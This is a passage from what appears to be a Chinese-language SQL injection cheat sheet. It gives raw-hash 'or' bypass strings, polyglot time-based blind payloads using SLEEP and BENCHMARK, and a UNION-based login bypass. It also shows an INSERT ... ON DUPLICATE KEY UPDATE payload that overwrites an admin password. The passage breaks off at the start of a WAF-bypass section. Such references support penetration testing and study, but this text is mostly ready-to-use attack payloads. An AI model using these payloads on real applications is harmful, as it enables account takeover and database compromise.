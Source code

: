 允许攻击者构造一个带有`true`语句的字符串，例如`' or 'SOMETHING`

```php
md5("ffifdyop", true) = 'or'6!rb
sha1("3fDf ", true) = Qu'='t o_-!
```

挑战演示可在 [http://web.jarvisoj.com:32772](http://web.jarvisoj.com:32772)

## 多上下文注入（Polyglot injection）

```sql
SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/

/* 仅MySQL */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```

## 路由注入

```sql
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

## 插入语句 - ON DUPLICATE KEY UPDATE

ON DUPLICATE KEY UPDATE关键字用于告诉MySQL当应用程序尝试插入表中已存在的行时该怎么做。我们可以利用这一点通过以下方式更改管理员密码：

```sql
使用有效载荷注入：
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

查询将如下所示：
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

此查询将为用户“attacker_dummy@example.com”插入一行。它还将为用户“admin@example.com”插入一行。
因为此行已经存在，ON DUPLICATE KEY UPDATE关键字告诉MySQL将已存在的行的`password`列更新为"bcrypt_hash_of_qwerty"。

之后，我们可以简单地使用“admin@example.com”和密码“qwerty”进行身份验证！
```



## 通用WAF绕过方法

### 空格替代方案

* 不允许空格（`%20`）- 使用空格替代方案绕过
